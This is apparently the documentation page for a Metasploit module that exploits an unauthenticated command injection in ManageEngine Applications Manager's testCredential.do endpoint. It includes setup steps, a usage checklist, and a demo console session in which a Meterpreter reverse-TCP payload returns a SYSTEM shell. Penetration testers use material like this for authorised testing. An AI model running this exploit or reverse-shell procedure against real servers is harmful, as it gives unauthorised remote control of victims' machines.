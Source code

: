 exploit/windows/http/manageengine_appmanager_exec.md## Vulnerable Application
This module exploits command injection vulnerability in the ManageEngine Applications Manager product. An unauthenticated user can execute a operating system command under the context of privileged user. Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials by accessing given system. This endpoint calls a several internal classes and then executes powershell script without validating user supplied parameter when the given system is OfficeSharePointServer.

**Vulnerable Application Installation Steps**

Go to following website and download Windows version of the product. It comes with built-in Java and Postgresql so you don't need to install anything else.
[http://archives.manageengine.com/applications_manager/13630/](http://archives.manageengine.com/applications_manager/13630/)

## Verification Steps

A successful check of the exploit will look like this:

* Start `msfconsole`
* `use exploit/windows/http/manageengine_appmanager_exec`
* Set `RHOST <RHOST>`
* Set `PAYLOAD windows/meterpreter/reverse_tcp`
* Set `LHOST <LHOST>`
* Run `check`
* **Verify** that you are seeing `The target is vulnerable.` in console.
* Run `exploit`
* **Verify** that you are seeing `Triggering the vulnerability` in console.
* **Verify** that you are seeing `Sending stage to <TARGET>` in console.
* **Verify** that you have your shell.

## Demo

```
msf5 > 
msf5 > use exploit/windows/http/manageengine_appmanager_exec 
msf5 exploit(windows/http/manageengine_appmanager_exec) > set RHOST 12.0.0.192
RHOST => 12.0.0.192
msf5 exploit(windows/http/manageengine_appmanager_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/manageengine_appmanager_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(windows/http/manageengine_appmanager_exec) > check
[+] 12.0.0.192:9090 The target is vulnerable.
msf5 exploit(windows/http/manageengine_appmanager_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Trigerring the vulnerability
[*] Sending stage (179779 bytes) to 12.0.0.192

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```